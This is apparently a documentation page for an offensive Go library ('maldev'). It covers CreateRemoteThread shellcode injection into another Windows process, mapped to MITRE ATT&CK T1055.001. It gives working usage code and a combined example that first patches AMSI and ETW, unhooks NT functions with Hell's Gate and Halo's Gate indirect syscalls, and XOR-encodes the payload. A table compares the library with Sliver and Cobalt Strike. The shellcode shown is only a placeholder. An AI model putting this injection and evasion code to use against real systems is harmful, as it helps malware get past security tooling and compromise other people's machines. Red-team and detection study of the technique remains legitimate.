

# CreateRemoteThread Injection

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **D3FEND:** D3-PSA -- Process Spawn Analysis | **Detection:** High

## Primer

Imagine you have a recipe you want someone else to cook. CreateRemoteThread injection is like copying that recipe into someone else's cookbook, then asking the kitchen manager to assign a chef to prepare it. The chef (thread) is new -- they did not exist before you asked -- which is why kitchen security (EDR) tends to notice.

This is the oldest and most straightforward shellcode injection technique on Windows. Your program opens another running process, allocates memory inside it, writes shellcode into that memory, and creates a new thread in the target process that starts executing at the shellcode address. Every step uses well-documented Windows APIs, making it easy to implement but also easy for security tools to detect.

Despite its high detection rate, CRT injection remains important as a baseline. It works reliably on all Windows versions, requires no special setup, and serves as the foundation that more advanced techniques build upon. Understanding CRT is essential before moving to stealthier alternatives.

## How It Works



**Step-by-step:**

1. **OpenProcess** -- Obtain a handle to the target process with `PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ` access rights.
2. **NtAllocateVirtualMemory** -- Allocate a memory region in the target process with `PAGE_READWRITE` permissions (avoids the suspicious RWX allocation).
3. **NtWriteVirtualMemory** -- Copy the shellcode bytes into the allocated remote memory.
4. **NtProtectVirtualMemory** -- Flip the memory protection to `PAGE_EXECUTE_READ` so the code can run but not be modified.
5. **NtCreateThreadEx** -- Create a new thread in the target process with the start address pointing to the shellcode. The thread begins execution immediately.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC} // placeholder

    cfg := inject.DefaultWindowsConfig(inject.MethodCreateRemoteThread, 1234)
    injector, err := inject.NewWindowsInjector(cfg)
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Apply evasion first: patch AMSI + ETW, unhook common NT functions.
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))
    if errs := evasion.ApplyAll(preset.Stealth(), caller); errs != nil {
        for name, err := range errs {
            log.Printf("evasion %s failed: %v", name, err)
        }
    }

    // 2. Inject with indirect syscalls + CPU delay + XOR encoding.
    injector, err := inject.Build().
        Method(inject.MethodCreateRemoteThread).
        TargetPID(1234).
        IndirectSyscalls().
        Use(inject.WithCPUDelayConfig(inject.CPUDelayConfig{MaxIterations: 10_000_000})).
        Use(inject.WithXORKey(0x41)).
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Low -- `CreateRemoteThread` / `NtCreateThreadEx` is one of the most monitored API calls. EDR kernel callbacks (`PsSetCreateThreadNotifyRoutine`) fire immediately. |
| Compatibility | Excellent -- works on all Windows versions from XP through 11. No special prerequisites. |
| Reliability | High -- well-understood, deterministic execution. No race conditions or timing dependencies. |
| Limitations | Requires `PROCESS_CREATE_THREAD` access, which triggers EDR alerts. The new remote thread has no legitimate call stack, making stack-walking detection trivial. Cannot target Protected Process Light (PPL) processes. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| Direct/Indirect syscalls | Yes (configurable) | Indirect only | BOF-based | No |
| Builder API | Yes (fluent) | Config struct | Malleable C2 profile | Function call |
| XOR pre-encoding | Decorator middleware | Built-in | Sleep mask | Manual |
| CPU delay evasion | Decorator middleware | No | Sleep jitter | No |
| Automatic fallback | `WithFallback()` | No | No | No |
| Caller routing (EDR bypass) | `*wsyscall.Caller` | Built-in | N/A | N/A |

## API Reference

```go
// Method constant
const MethodCreateRemoteThread Method = "crt"

// Config-based creation
cfg := inject.DefaultWindowsConfig(inject.MethodCreateRemoteThread, pid)
injector, err := inject.NewWindowsInjector(cfg)

// Builder-based creation
injector, err := inject.Build().
    Method(inject.MethodCreateRemoteThread).
    TargetPID(pid).
    DirectSyscalls().       // or .IndirectSyscalls(), .WinAPI(), .NativeAPI()
    WithFallback().         // try alternate methods on failure
    Use(middleware).        // add decorator layers
    Create()

// Injector interface
type Injector interface {
    Inject(shellcode []byte) error
}
```
